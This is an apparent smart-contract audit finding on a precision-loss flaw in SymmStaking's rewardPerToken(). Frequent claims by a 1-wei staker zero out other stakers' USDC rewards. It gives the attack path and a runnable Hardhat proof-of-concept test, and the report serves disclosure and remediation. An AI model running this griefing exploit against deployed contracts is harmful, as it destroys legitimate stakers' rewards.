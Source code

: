 Bumpy Teal Mule

High

# Malicious user can grief staking rewards for legitimate stakers through frequent claiming

### Summary

A precision loss in reward calculation will cause a loss of rewards for legitimate stakers as a malicious user can frequently claim rewards to prevent rewardPerToken accumulation.

### Root Cause

In [`rewardPerToken()`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L194-L202), the reward per token calculation can round down to zero due to division before multiplication:

```solidity
return
    rewardState[_rewardsToken].perTokenStored +
    (((lastTimeRewardApplicable(_rewardsToken) - rewardState[_rewardsToken].lastUpdated) * rewardState[_rewardsToken].rate * 1e18) /
        totalSupply);

```

### Internal Pre-conditions

1. Legitimate user needs to stake a significant amount of tokens
2. Rewards period should be initialised
3. Total supply needs to be large enough to cause division to round down to zero

### External Pre-conditions

-

### Attack Path

1. Attacker stakes minimal amount (1 wei) of tokens
2. Attacker calls `claimRewards()` frequently (every ~100 seconds)
3. Each claim resets the `lastUpdated` timestamp
4. Due to large `totalSupply` and small time difference, the division rounds to zero
5. When legitimate staker claims after waiting, they receive no rewards

### Impact

Legitimate stakers suffer a complete loss of their rewards. In the demonstrated example, a user staking 333,333 SYMM (99.999% of total stake) receives 0 USDC instead of their entitled 1000 USDC rewards.

### PoC

Add the following test to symmStaking.behavior.ts:

```javascript
		it("user2 griefing rewards for user1", async function () {
			// Scenario: User 1 deposits 333_333 SYM (333_333 * 10 ^18), and there are 1000 USDC rewards for distribution.
			let additionalMintToUser1: bigint = e("333233")
			await stakingToken.connect(admin).mint(user1.address, additionalMintToUser1)

			const USDCDReward = "1000000000"		// 1000 USDC (1000 * 10^6) (around 1653 USDC per second)
			const user1DepositAmount = "333333000000000000000000"		// 333_333 SYM (10 000 USD) (assuming 1 SYMM is 0,03 USD)
			const user2DepositAmount = "1"

			// admin sets reward distribution for the 1000 USDC
			await usdcToken.connect(admin).approve(await symmStaking.getAddress(), USDCDReward)
			await symmStaking.connect(admin).configureRewardToken(await usdcToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdcToken.getAddress()], [USDCDReward])

			// user 1 deposits 333_333 * 10^18 SYM, user 2 deposits 1 SYM

			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), user1DepositAmount)
			await symmStaking.connect(user1).deposit(user1DepositAmount, user1.address)
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), user2DepositAmount)
			await symmStaking.connect(user2).deposit(user2DepositAmount, user1.address)

			// user 2 calls claimRewards() every 100 seconds, not to allow perTokenStored to be increased

			for (let i = 0; i < 6049; i++) {
				await time.increase(100) // Increase time by 100 seconds

				await symmStaking.connect(user2).claimRewards()
			}

			// user1 who patiently waited the whole duration now claims and expects to receive 1000 USDC (with a little bit difference due to rounding)
			const user1USDCFirstBalanceBefore = await usdcToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1USDCFirstBalanceAfter = await usdcToken.balanceOf(user1.address)
			const claimUser1 = user1USDCFirstBalanceAfter - user1USDCFirstBalanceBefore

			// user 1 has claimed 0 USDC, although he should've claimed 1000 * 10^6
			console.log("first claim:", claimUser1)

		})

```

### Mitigation

Consider using a higher precision factor than 1e18 for intermediate calculations
